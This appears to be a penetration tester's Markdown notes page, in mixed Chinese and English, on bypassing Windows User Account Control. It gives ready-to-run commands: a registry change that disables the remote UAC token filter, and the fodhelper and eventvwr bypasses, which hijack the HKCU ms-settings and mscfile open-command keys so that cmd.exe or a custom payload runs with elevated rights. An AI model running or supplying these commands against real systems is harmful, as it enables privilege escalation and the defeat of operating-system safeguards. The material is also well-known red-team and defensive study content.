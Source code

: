 ## UAC Bypass
p546
> UAC是从Windows Vista开始引入的安全特性，为了防止回环攻击和恶意软件，UAC默认对网络共享访问有如下限制：
> + 对于本地用户，只有用administrator (SID 500) 远程访问网络共享时可以获取完整的管理员权限，而本地管理员组的其他成员无法获取完整的管理员权限，无法进行远程管理。
> + 对于域用户，所有域管理员组的成员在访问网络共享时都可以获取完整的管理员权限，不受UAC限制

Process Monitor，identifying flaws such as Registry hijacking, DLL hijacking.[Dowanload](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)
[UAC实现原理及绕过方法](https://www.cnblogs.com/Chesky/p/UAC_Bypass.html)

```bat
# 修改注册表项禁用UAC限制，修改后立即生效，无需重
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

### fodhelper
> 参考
> https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/
> https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/

```bat
#-sigcheck查看applicationmanifest
# https://docs.microsoft.com/en-us/sysinternals/
#-a obtain extended information
#-m dump manifest
#-<requestedExecutionLevel level="requireAdministrator"/>
#-<autoElevate>true</autoElevate>
sigcheck.exe -a -m c:\windows\system32\fodhelper.exe

#-添加/修改注册表
# /v specify the value name
# /t specify type
# /d specify new registry value
# /f add value silently
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ

# 修改注册表，启动时 启动cmd.exe
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

### eventvwr
> 原理同fodhelper.exe
参考1: ["FILELESS" UAC BYPASS USING EVENTVWR.EXE AND REGISTRY HIJACKING](https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/)
> 修改c文件，编译生成exe
[bypasssing default uac settings mannually](https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/)

```bat
#-查看权限信息
sigcheck.exe -accepteula -a -m c:\Windows\System32\eventvwr.exe

#-修改注册表
reg query HKCU\Software\Classes\mscfile\shell\open\command
reg add HKCU\Software\Classes\mscfile\shell\open\command
reg add HKCU\Software\Classes\mscfile\shell\open\command /d "c:\users\alice\shelluac.exe" /f

#-start
eventvwr.exe

#-Invoke-EventVwrBypass
# https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Invoke-EventVwrBypass.ps1
# tested on win7 and win10
```